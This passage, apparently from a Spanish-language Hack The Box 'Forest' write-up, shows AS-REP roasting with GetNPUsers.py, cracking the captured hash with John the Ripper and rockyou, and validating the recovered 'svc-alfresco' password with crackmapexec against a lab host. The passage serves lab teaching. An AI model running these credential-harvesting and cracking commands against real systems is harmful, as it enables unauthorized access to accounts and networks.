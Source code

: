 ![list](/assets/img/forest/Kali-2022-09-13-22-56-08.png){:.lead width="800" height="100" loading="lazy"}

```bash
GetNPUsers.py htb.local/ -no-pass -usersfile users
```

{:.note}
Obtenemos un hash que gusrdaremos en un archivo llamado hash que prodeceremos a crackear con `John The Ripper`.

```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```

{:.note}
La contraseña es`s3rvice` y el usuario es `svc-alfresco`.

***
## Explotacion

Con cracmapexec verificamos si las credeciales son validas.

![list](/assets/img/forest/Kali-2022-09-13-23-09-14.png){:.lead width="800" height="100" loading="lazy"}

```bash
crackmapexec smb 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
```

{:.note}
Son credenciales validas.
